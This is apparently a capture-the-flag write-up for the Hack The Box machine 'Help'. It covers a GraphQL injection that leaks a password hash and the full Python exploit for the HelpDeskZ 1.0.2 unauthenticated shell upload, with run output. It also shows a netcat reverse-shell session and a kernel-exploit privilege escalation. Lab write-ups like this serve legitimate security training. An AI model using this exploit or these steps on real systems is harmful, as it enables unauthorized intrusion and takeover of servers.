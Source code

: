 # Help
### Info:
OS: Linux<br>
IP: 10.10.10.121<br>
Difficulty : Medium <br>
### Enumeration:

```nmap -sC -sV -oA nmap 10.10.10.121``` <br>

gives us the results : <br>
![alt text](https://i.imgur.com/3hzUbcu.png)
On port 3000 we found graphql api 

### Exploitation:
Graphql endpoint had a vulnerability which can be exploited as shown:
![alt text](https://i.imgur.com/esBZpdC.png)
Using this we get the `pass:5d3c93182bb20f07b994a7f617e99cff` which can be broken via hashes.org into `godhelpmeplz`
<br>
Now we can login at /support or the HelpDesk portal with those credentials. <br>
On searchsploit we get a exploit for helpdesk.
![alt text](https://i.imgur.com/djGauaF.png)
We can upload a php file and get the url via exploit.py 
<b> Exploit.py </b>
```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 4:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]
extension = sys.argv[3]
date_time = '22.01.2019 13:49:19'
pattern = '%d.%m.%Y %H:%M:%S'
epochTime = int(time.mktime(time.strptime(date_time, pattern)))
#currentTime = int(time.time())
currentTime =  epochTime+70
print currentTime
for x in range(0, 500):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+extension
    response = requests.head(url)
    print 'looking for '+url
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```
and running this script as :
```
root@kali:~/Desktop/boxes/Help# python exploit.py http://10.10.10.121/support/uploads/tickets/ phpshell.php .php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
1548165029
looking for http://10.10.10.121/support/uploads/tickets/d4c85266e81912ce6a076dc5c4221b8a.php
looking for http://10.10.10.121/support/uploads/tickets/475c289fbce358193166cd4437264474.php
looking for http://10.10.10.121/support/uploads/tickets/79988be34d3e897d7f6202ffcefbc11c.php
looking for http://10.10.10.121/support/uploads/tickets/e42fb07d90c068fe0e992c8de02b62e4.php
found!
http://10.10.10.121/support/uploads/tickets/e42fb07d90c068fe0e992c8de02b62e4.php
```
get's us the location of the file. After running this script and listening on the port as :
```
root@kali:~/Desktop/boxes/Help# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.16] from (UNKNOWN) [10.10.10.121] 45316
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 07:13:03 up  9:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ locate user.txt
/home/help/user.txt
/usr/share/doc/fontconfig/fontconfig-user.txt.gz
```
get's us the user.
### Privilege Escaltion:
For root we check the kernel version via 
```
$ uname -r
4.4.0-116-generic
```
and finding the exploit for that specific version :
![alt text](https://i.imgur.com/wjByF1Y.png)
Running the exploit on the user machine get's us the root!

### Things learned:
Finding local files via time travel. <br>
Graphql end point injections. <br>
Local privesc via kernel version. <br>
